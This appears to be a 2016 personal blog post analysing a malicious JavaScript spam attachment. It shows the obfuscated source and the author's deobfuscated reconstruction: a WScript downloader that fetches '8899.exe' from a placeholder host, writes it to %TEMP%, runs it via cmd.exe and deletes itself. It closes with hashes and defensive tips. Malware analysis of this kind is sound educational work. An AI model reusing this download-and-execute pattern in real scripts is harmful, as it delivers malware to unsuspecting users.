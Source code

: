 ```yaml
---
layout:     post
title:      "Analyzing JavaScript Malware"
subtitle:   "Quick Story Behind Spam Attachment"
date:       2016-10-29 0:00:00
author:     "W3ndige"
header-img: "img/analyzing-javascript-malware-header.jpg"
permalink: /:title/
category: Malware
---
```


<h1>Backstory</h1>

<p>About half of a year ago, my girlfriend got e-mail from post office saying that the the package was ready to pickup, with a quick note saying that more information is available in the attachment. I was asked to look at it, as she found it suspicious - mail was written very poorly - definitely not what official mail would sound like. Firstly I took a look at the domain, from where this mail was sent, and as I excepted, it was not connected to domains of our post service. But what I really wanted to know was, what's the goal of the attachment? </p>

<h1>First contact</h1>

<p>After downloading it, I noticed that the extension of the file was <b>.js</b> - some JavaScript file. But it was only possible because I had turned on showing files with their extensions. Someone without this option would see it only as .txt file. Viewing the source, unfortunately at first, gave me no clue how it works. Script was made of around 400 lines of code. But after looking closer it seemed, that around quarter of the code was actually part that did something, rest was only filled with assigned variables and functions returning pieces of words. </p>

{% highlight javascript %}
var tbuloq1 = {
	itxy:'plebydva', 8423:730, ldipli:353, lgahze:"AtEn", ekxov:'dipyvvo'
}
["lgahze"];
function daqkuvtejqa3 () {
           var ssororg0 = {
		lifki:'hylxyzra', 2216:"d", 6034:'ubylivw'
	}
	;
	var xhahbolz3 = ssororg0["2216"];
           return xhahbolz3;
}

{% endhighlight %}

<p>But after some time I noticed a pattern - in last 30 lines of code, there were only references to the variables, and after connecting them together what I got, was much more readable than before. In example, if you take this piece of code and connect to the variables in the beggining, what you'll get is something more likely looking like this. </p>

{% highlight javascript %}
ejybpib6= zoracufyp7[nsatqe9 + oxqokowj9 + ynxyru7 + exgemko2];
{% endhighlight %}

<p>Great, now to make it clearer to read I have to do the same. Unfortunately I'm not completely sure that it's 'translated' 100% correctly, but it still gives me insight into how this script may work. </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
{% endhighlight %}

<p>Finally, after around 3 hours, I got the full translation. But I've got still a few questions, what is WScript and how it works? </p>

{% highlight javascript %}
ejybpib6 = this.WScript;
ehynzedda7 = WScript.CreateObject(Scripting.FileSystemObject);
elmona4 = WScript.CreateObject(WScript.Shell);
acjihy9 = WScript.CreateObject(MSXML2.XMLHTTP);
jyfej9 = WScript.CreateObject(ADODB.Stream);
oqavate7 = ehynzedda7.GetSpecialFolder(2);

if (typeof document == undefined) {
  kagignu5 = WScript.CreateObject(Scripting.FileSystemObject).GetTempName();
}

if(typeof WScript.StdIn.AtEndOfStream == unknown) {
  ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).open(GET, 'http://some_ip_address/8899.exe', 0);
}
ixzebni1 = WScript.CreateObject(MSXML2.XMLHTTP).send();
WScript.CreateObject(ADODB.Stream).type = 1;
try {
    if(!WScript.Arguments.Unnamed.length]) {
			oxacobmo3 = WScript.CreateObject(MSXML2.XMLHTTP).ResponseBody;
		}
    ruzetpa0 = WScript.ScriptFullName;
    ixzebni1 = WScript.CreateObject(ADODB.Stream)Open();
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Write(oxacobmo3);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).SaveToFile(oqavate7 + kagignu5);
    ixzebni1 = WScript.CreateObject(ADODB.Stream).Close();
    ixzebni1 = WScript.CreateObject(WScript.Shell).run(cmd.exe /c + oqavate7 + kagignu5, 0;
    ixzebni1 = WScript.CreateObject(Scripting.FileSystemObject).deleteFile(ruzetpa0);
}
catch(e) {
}

{% endhighlight %}

<p>Okay, as far as I can understand, it downloads the file from url (not shown in this code), and somehow executes it, maybe using cmd?  But for better insight I had to dig for references showing the use of the WScript and other functions show in this code. </p>

<h1>Understanding</h1>

<p><b>Windows Host Script</b> is an Windows eviroment, providing the user with a possibility to run scripts in a variety of languages. By default, when JavaScript is saved to your hard drive, it will be run by WSH with power of executable file. </p>

<p>Script uses these WScript calls: </p>

<ul>
<li><b>WScript.CreateObject(WScript.Shell)</b> - provides access to shell methods of operating system.</li>
<li><b>WScript.CreateObject(MSXML2.XMLHTTP)</b> - XML request using HTTP.</li>
<li><b>WScript.CreateObject(ADODB.Stream)</b> - is used to represent a stream of data or text.</li>
</ul>

<p><b>GetSpecialFolder(2)</b> will get the %TEMP% folder. </p>

<p>Then the script creates the XML request to get the data from specified URL and, then it sends the request. </p>

<p>After that script creates a series of commands to: </p>

<ol>
<li>Get the response body of the request. </li>
<li>Write it to a file in tmp directory. </li>
<li>Save and close the file. </li>
<li>Execute through CMD</li>
<li>Lastly, it will delete the file. </li>

</ol>

<p>Unfortunately, .exe file was not available, while I got to check, and I couldn't find as much info about it as I wanted. The only information I could find were: </p>

{% highlight text %}
Operating System: Windows 7 / 8 / 8.1 / 10
Singature Name: QVM07.1.Malware.Gen

Main Info:

Name: 8899.exe

Size: 569464

Type: PE32 executable (GUI) Intel 80386, for MS Windows

MD5: 3771453fc565a0436534d509dcb7da9f

SHA1: 803e3634a70dd3b9ce2b409b108cb1baf5fa3d08

Freezing computer.
New home page in browsers.
Ads and pop-ups on desktop and browser.
Very slow loading speed of webpages.
Computer work slower then usual.
{% endhighlight %}

<h1>Conclusion</h1>

<p>Author of this malware did a lot, to try and obfuscate this script, as I spent a lot of time trying to make it readable, but still it wasn't as complicated as I thought at first. To stay protected from these kinds of attacks, remember to tell explorer to open .js files through the Notepad by default, as well as show files with their extensions. That way you will see if it's really a text document or .txt.js malware. And the most important step, don't download files that you're unsure about. Simply, don't trust anyone ;) </p>

<p>I had great fun, trying to understand the concept, and even though you may think, that it was very simple, I still learned a lot from this.  </p>
